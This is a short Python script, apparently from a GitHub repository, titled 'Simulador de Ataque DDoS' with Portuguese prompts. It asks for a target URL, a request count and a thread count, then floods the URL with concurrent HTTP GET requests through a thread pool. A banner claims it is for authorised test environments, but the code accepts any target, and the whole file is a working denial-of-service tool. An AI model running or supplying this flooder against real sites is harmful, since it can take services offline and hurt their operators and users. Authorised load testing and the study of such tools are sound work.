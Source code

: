 import requests
from concurrent.futures import ThreadPoolExecutor
import time

def ddos_attack(url, num_requests, num_threads):
    def attack():
        try:
            response = requests.get(url)
            print(f"[{response.status_code}] Requisição para {url} concluída.")
        except requests.RequestException as e:
            print(f"Erro ao fazer requisição: {e}")

    with ThreadPoolExecutor(max_workers=num_threads) as executor:
        futures = [executor.submit(attack) for _ in range(num_requests)]
        for future in futures:
            try:
                future.result()  # Espera a conclusão da tarefa
            except Exception as e:
                print(f"Erro na execução da thread: {e}")

if __name__ == "__main__":
    print("\n\t\t============== Simulador de Ataque DDoS ==============")
    print("\n\n\t\t=================== Seja Bem Vindo ==================")
    print("\nEste programa simula um ataque DDoS em um ambiente de teste autorizado.")
    
    url = input("\n\tDigite o URL alvo do teste (ex: http://example.com): ")
    num_requests = int(input("\n\tNúmero de requisições a serem enviadas: "))
    num_threads = int(input("\n\tNúmero de threads simultâneas: "))
    
    print("\nIniciando o ataque DDoS. Por favor, aguarde...")
    start_time = time.time()
    ddos_attack(url, num_requests, num_threads)
    print(f"\nAtaque concluído em {time.time() - start_time:.2f} segundos.")
